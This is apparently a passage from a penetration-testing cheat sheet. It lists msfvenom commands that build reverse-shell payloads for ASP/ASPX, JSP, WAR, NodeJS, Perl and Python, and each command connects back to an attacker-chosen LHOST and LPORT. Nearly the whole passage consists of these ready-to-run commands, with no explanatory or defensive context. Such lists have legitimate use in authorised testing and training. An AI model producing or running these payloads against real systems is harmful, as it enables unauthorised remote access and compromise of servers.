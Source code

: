 ### ASP/x

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
{% endcode %}

### JSP

#### Reverse shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
{% endcode %}

### WAR

#### Reverse Shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
{% endcode %}

### NodeJS

```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## **Script Language payloads**

### **Perl**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
{% endcode %}

### **Python**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
{% endcode %}
